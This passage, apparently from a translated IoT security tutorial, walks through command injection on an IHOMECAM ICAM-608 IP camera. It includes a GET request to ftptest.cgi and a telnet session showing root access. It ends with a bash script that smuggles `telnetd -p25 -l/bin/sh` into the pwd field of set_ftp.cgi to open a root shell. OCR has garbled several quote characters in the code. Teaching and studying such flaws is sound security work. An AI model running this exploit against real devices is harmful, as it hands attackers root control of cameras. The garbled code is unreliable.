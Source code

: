 ```
function ftp_test() {              
   var url;              
   url'= 'ftptest.cgi?next_url=test_ftp.'tm';              
   url '= '&loginu'e=' + top.cookieuser'+ '&loginp's=' + encodeURIComponent(top.cookiepass);              
   window.open(ur"" """ "")         } 
```

1.  接下来，我们可以直接调用`ftptest.cgi`来保存我们的设置，使用以下`GET`请求：

```
/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=ad'in'  
```

1.  Telnet 现在在端口`25`上运行，并给我们一个 root shell：

```
$ telnet 192.168.1.177 25
Trying 192.168.1.177...
Connected to 192.168.1.177.
Escape character 's '^]'.

/ # id
uid=0(root) gid=0
/ # mount
rootfs on / type rootfs (rw)
/dev/root on / type squashfs (ro,relatime)
/proc on /proc type proc (rw,relatime)
sysfs on /sys type sysfs (rw,relatime)
tmpfs on /dev type tmpfs (rw,relatime,size=2048k)
tmpfs on /tmp type tmpfs (rw,relatime,size=5120k)
devpts on /dev/pts type devpts (rw,relatime,mode=600,ptmxmode=000)
/dev/mtdblock3 on /system type jffs2 (rw,relatime)
/ # uname -a
Linux apk-link 3.10.14 #5 PREEMPT Thu Sep 22 09:11:41 CST 2016 mips GNU/Linux

```

1.  在设备的 LAN 上获得 shell 权限后，可以使用各种技术进行后期利用。本教程不涵盖后期利用技术；然而，我们可以轻松地编写命令注入有效负载的脚本，以确保使用以下 bash 脚本访问：

```
#!/bin/sh  
wget -q'- 'http://192.168.1.177/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interval=0'  
wget -qO- 'http://192.168.1.177/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=admin' 
telnet 192.168.1.177 25  
```

在这个教程中，我们介绍了在 IHOMECAM ICAM-608 IP 摄像头上发现和利用命令注入。我们能够获得 shell 访问权限，并创建一个脚本来自动化利用命令注入。

# 另请参阅

+   要了解更多关于查找和预防命令注入的信息，请参考 OWASP 的命令注入维基页面（[`www.owasp.org/index.php/Command_Injection`](https://www.owasp.org/index.php/Command_Injection)）以及 OWASP 的嵌入式应用安全项目（[`www.owasp.org/index.php/OWASP_Embedded_Application_Security`](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security)）。
